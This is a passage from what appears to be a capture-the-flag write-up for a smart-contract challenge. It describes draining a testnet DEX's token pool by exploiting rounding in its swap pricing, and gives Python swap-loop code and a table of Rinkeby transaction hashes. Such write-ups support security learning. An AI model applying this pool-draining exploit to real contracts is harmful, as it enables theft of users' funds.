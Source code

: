 Even though I used the floor of the price, solidity will still apparently internally use decimals prior to casting to integer. As a result of this, swap 8 will cause the pool to be drained, as $7.\bar{3} * 15 = 110$.

### How I did it

1. First call the `approve()` function in the Dex contract:

```python
# use the convenient approve method in dex
dex.approve(dex.address, 2*256 - 1, _from)
```

0x3a7d2248b69cd0cc34fa41e32c8b27ee9d20c9c59129d7c68c5530b29e70845f

2. Then I perform enough swaps until the pool is drained, which I do inside an infinite while loop that breaks when the condition that at least one of the balances of a token in the Dex is drained. The following if-else statement performs each swap, all the swaps except the last one using as the amount my balance of each token per swap (alternates through the boolean `c` which is used to index this dictionary `switch = {True: {1: tk1, 2: tk2}, False: {1: tk2, 2: tk1}}`):

```python
# perform action
if (my_bal < dex_bal1(c)):
    dex.swap(switch[c][1], switch[c][2], my_bal, _from)
else:
    dex.swap(switch[c][1], switch[c][2], dex_bal1(c), _from)

# check if we are done
if dex_bal1(c) == 0 or dex_bal2(c) == 0:
    break
```

Table with the swaps and tx hashes:

| Swap | Balance $T_1$ | Balance $T_2$ | Tx hash of each one of the swaps                                   |
|------|---------------|---------------|--------------------------------------------------------------------|
| 0    | 100           | 100           | [0xded5a80cd702d0f330f0acdda86248b0622a9c05d59a3fb7d7ef8abd1e2fdc12](https://rinkeby.etherscan.io/tx/0xded5a80cd702d0f330f0acdda86248b0622a9c05d59a3fb7d7ef8abd1e2fdc12) |
| 1    | 110           | 90            | [0xa1b979e946ea9e75ec484309773d11f9c1dba0e5a7894a421a3fdfb3401a2428](https://rinkeby.etherscan.io/tx/0xa1b979e946ea9e75ec484309773d11f9c1dba0e5a7894a421a3fdfb3401a2428) |
| 2    | 98            | 100           | [0xdfccc83437533c5a142583426a858f7cdf1bee830548523222f353c86775a31e](https://rinkeby.etherscan.io/tx/0xdfccc83437533c5a142583426a858f7cdf1bee830548523222f353c86775a31e) |
| 3    | 110           | 88            | [0x60703c7c78c142f8ad9e9279b7a4a1478d5d48715220d8775f9dfebe5343b7e1](https://rinkeby.etherscan.io/tx/0x60703c7c78c142f8ad9e9279b7a4a1478d5d48715220d8775f9dfebe5343b7e1) |
| 4    | 83            | 110           | [0xe08e68d42b49de0aecef4df9a94e6fd3ad93389155735a896f347e20e84593df](https://rinkeby.etherscan.io/tx/0xe08e68d42b49de0aecef4df9a94e6fd3ad93389155735a896f347e20e84593df) |
| 5    | 110           | 75            | [0x5be83195ec1369e34cc05c7b097e15611ef9e8a8d4a00f8a3e97f829e7ff148c](https://rinkeby.etherscan.io/tx/0x5be83195ec1369e34cc05c7b097e15611ef9e8a8d4a00f8a3e97f829e7ff148c) |
| 6    | 59            | 110           | [0x44b5e1ff748c05acdf87128d7b68af188cb76e47a226744568c246e36b352773](https://rinkeby.etherscan.io/tx/0x44b5e1ff748c05acdf87128d7b68af188cb76e47a226744568c246e36b352773) |
| 7    | 110           | 15            | [0xaf0676991ff5583ac68e13197df00b7e0bfa1796f7769519721c8bff8e72ced8](https://rinkeby.etherscan.io/tx/0xaf0676991ff5583ac68e13197df00b7e0bfa1796f7769519721c8bff8e72ced8) |
| 8    | 0             | 30            | Pool is drained at this point                                      |


3. Once the loop breaks, I confirm that I have actually drained at least one side of the pool:
